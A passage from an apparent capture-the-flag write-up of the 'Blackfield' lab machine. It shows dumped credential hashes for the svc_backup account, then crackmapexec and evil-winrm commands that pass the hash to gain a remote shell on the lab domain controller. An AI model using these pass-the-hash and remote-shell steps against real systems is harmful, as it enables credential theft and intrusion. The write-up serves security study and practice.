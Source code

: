 Found the Administrator session but unfortunately, they must've changed their password as the key wasn't working when I tried connecting. 

I also found the svc_backup user
```bash
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
```

and it looks like we are winning
```bash
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ crackmapexec winrm 10.129.229.17 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.129.229.17   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.129.229.17   5985   DC01             [*] http://10.129.229.17:5985/wsman
WINRM       10.129.229.17   5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

```

Connected using evil-winrm with the account and successfully got the user flag 🤯
```
┌──(kali㉿kali)-[~/…/NonComp/Hard/Blackfield/Loot]
└─$ evil-winrm -i 10.129.229.17 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> ls


```
